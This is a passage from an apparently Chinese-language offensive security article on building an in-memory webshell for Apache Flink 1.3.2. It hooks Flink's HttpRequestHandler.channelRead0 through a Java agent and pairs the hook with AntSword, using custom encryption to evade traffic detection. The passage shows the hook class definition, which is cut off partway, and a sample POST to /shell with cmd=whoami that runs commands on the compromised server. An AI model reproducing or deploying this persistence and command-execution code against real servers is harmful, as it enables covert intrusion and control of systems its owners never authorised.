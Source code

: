 ```java
     * @return 被Hook的目标方法描述符
     */
    String getMethodDesc();
}
```

### 5.2 Flink132

我们在编写目标方法的Hook点时，需要引用相关的类或字段，在本地IDEA测试运行时我们直接引用相关jar包即可，而在打包JAR时，我们可以选择不打包进去，避免获得的jar包过大。

另外，关于实现webshell的业务功能，冰蝎工具就不适用了，因为behind的业务逻辑与`HttpServletSession`、`HttpServletRequest`、`HttpServletResponse`这几个类紧密耦合，修改它的代码的工作量也很大。但笔者还是十分希望有一个图形化界面的工具来辅助我们管理webshell，这样能极大提升我们的工资效率。随后笔者想到要不直接使用比较原始的工具`cknife`（JAVA版开源菜刀）,稍微改改就能用，但如果要流量免杀，就还得改客户端源码，也费精力。

后面又看到`AntSword`的`CMDLINUX Shell `功能，服务器只需要提供命令执行功能并回显结果，就能做到文件浏览、修改功能；而且AntSword支持自定义加密，这样一来选择这块工具就很省事了，至于其他重要的功能，如代理，就先放着吧。

另外，在笔者在内存马的代码中添加了内存马删除功能，当用户访问`/UNINSTALL`路径时，会触发`removeTransformer(..)`，将相关hook点去除。

flink1.3.2中，笔者给出的代码在成功hook后，触发命令执行的HTTP是这样的：

```http
POST /shell HTTP/1.1
Host: 192.168.198.128:8081
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

cmd=whoami
```

```java
package com.attach.hook;

import com.attach.Agent;
import io.netty.buffer.Unpooled;
import io.netty.channel.ChannelFutureListener;
import io.netty.handler.codec.http.*;
import io.netty.handler.codec.http.multipart.DiskAttribute;
import io.netty.handler.codec.http.multipart.HttpPostRequestDecoder;
import io.netty.handler.codec.http.multipart.InterfaceHttpData;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;
import static com.attach.util.FileUtil.IS_WIN;
import static io.netty.handler.codec.http.HttpHeaders.Names.CONTENT_TYPE;
import static io.netty.handler.codec.http.HttpVersion.HTTP_1_1;
import io.netty.handler.codec.http.HttpContent;

public class Flink132 implements IHook{

    @Override
    public String getMethodSource() {
        return "com.attach.hook.Flink132.getShell($0,$1,$2);";
    }

    @Override
    public String getTargetClass() {
        return "org.apache.flink.runtime.webmonitor.HttpRequestHandler";
    }

    @Override
    public String getTargetMethod() {
        return "channelRead0";
    }

```